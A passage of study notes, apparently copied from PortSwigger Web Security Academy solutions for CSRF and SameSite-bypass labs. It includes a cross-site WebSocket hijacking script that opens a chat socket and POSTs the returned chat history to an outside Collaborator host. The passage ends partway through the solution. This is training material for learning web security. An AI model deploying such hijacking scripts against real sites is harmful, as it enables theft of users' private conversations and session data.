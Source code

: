 ```ad-success
    
    Note that you need to include the `submit` parameter and URL encode the ampersand delimiter to avoid breaking out of the `postId` parameter in the initial setup request.
    
5. Test the exploit on yourself and confirm that you have successfully changed your email address.
    
6. Change the email address in your exploit so that it doesn't match your own.
    
7. Deliver the exploit to the victim. After a few seconds, the lab is solved.
```

# SameSite Strict bypass via sibling domain
Reference: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

```ad-success
title: Solution
### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.
    
2. In Burp, go to the **Proxy > HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
    
3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.
    
4. In the browser, refresh the live chat page.
    
5. In Burp, go to the **Proxy > WebSockets history** tab. Notice that when you refresh the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.
    

### Confirm the CSWSH vulnerability

1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. A new Collaborator payload is saved to your clipboard.
    
2. In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:
    ~~~
    <script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>
    ~~~
1. Store and view the exploit yourself
    
4. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
    
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
    
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
    
7. Notice that your session cookie was not sent with the request.
    
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.
```
